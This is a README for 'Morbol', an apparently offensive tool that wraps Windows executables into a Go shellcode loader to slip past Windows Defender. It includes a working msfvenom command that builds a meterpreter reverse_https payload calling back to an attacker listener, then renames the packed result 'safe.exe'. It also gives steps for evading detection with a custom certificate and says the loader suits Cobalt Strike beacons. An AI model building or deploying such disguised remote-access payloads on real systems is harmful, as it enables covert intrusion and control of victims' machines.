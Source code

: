 # Morbol

Wraps PE Files (PIE required) into a shellcode loader via donut. Note that this is meant for non interactive executeables that do not require arguments and do not generate any output that you want to obtain (e.g. won't work for Rubeus or Mimikatz, but does for msfvenom/cs beacons).

Please note that defender is now pretty good at detecting go loaders, so don't expect great results.

## Setup

```
go get golang.org/x/sys/windows
pip3 install donut-shellcode
sudo apt-get install upx
```

## Usage

In my experience the only reliable way to evade defender with meterpreter is to use a reverse_https payload with a custom cert.

- Modify `/etc/ssl/openssl.cnf` so that `CipherString = DEFAULT`
- openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
- set HandlerSSLCert on the server side listener

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=... LPORT=...  HandlerSSLCert=... -f exe  > msf.exe
python3 morbol.py msf.exe safe.exe
```

## Credit

Heavily based on:
* https://posts.specterops.io/going-4-a-run-eb263838b944
* https://github.com/D00MFist/Go4aRun

